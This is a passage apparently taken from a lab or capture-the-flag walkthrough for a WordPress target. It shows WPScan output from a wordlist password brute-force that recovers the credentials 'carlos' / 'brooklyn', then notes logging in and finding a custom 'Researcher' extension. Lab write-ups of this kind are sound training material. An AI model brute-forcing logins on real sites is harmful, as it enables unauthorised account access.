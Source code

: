 ```code
Trying carlos / colombia Time: 00:00:37 <                                                                                                            > (460 / 14344852)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: carlos, Password: brooklyn

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Wed Dec  4 18:14:13 2024
[+] Requests Done: 631
[+] Cached Requests: 7
[+] Data Sent: 291.564 KB
[+] Data Received: 708.739 KB
[+] Memory used: 297.578 MB
[+] Elapsed time: 00:00:55

```


*  Now we will login to the WordPress website using those credential
![[login]](https://github.com/jitmondal1/Researcher/blob/main/Screenshot%202024-12-04%20181559.png)

* We found a custom extension called "Researcher"